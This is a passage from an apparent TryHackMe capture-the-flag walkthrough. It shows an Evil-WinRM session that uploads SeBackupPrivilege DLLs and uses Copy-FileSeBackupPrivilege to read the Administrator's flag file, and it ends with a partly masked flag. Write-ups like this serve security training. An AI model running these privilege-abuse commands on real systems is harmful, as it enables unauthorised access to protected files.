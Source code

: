 <br>

```bash
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll
                                        
Info: Uploading /root/FusionCorp/SeBackupPrivilegeCmdLets.dll to C:\tmp\SeBackupPrivilegeCmdLets.dll
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\tmp> 
```

<br>

```bash
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeUtils.dll
```

<br>
<br>

<h3>Copy-FileSeBackupPrivilege</h3>


```bash
*Evil-WinRM* PS C:\tmp> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\flag.txt C:\Users\jmurphy\Documents\flag.txt
```

<br>

```bash
*Evil-WinRM* PS C:\tmp> cat C:\Users\jmurphy\Documents\flag.txt
THM{f72988e***********f2115e10464d15}
```


<br>

<p>1.3. User 3<br>
<code>THM{f72988e***********f2115e10464d15}</code></p>


<br>

<br>
<br>

<h1 align="center">Completed</h1>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/c62786a6-f050-4cec-a18d-efe00ad5dbbb"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/77722b20-9401-4fb4-bd84-cde4acb33897"></p>


<br>


<img width="1900" height="892" alt="image" src="https://github.com/user-attachments/assets/6f4d40fb-e9a3-4669-906f-a42321863192" />
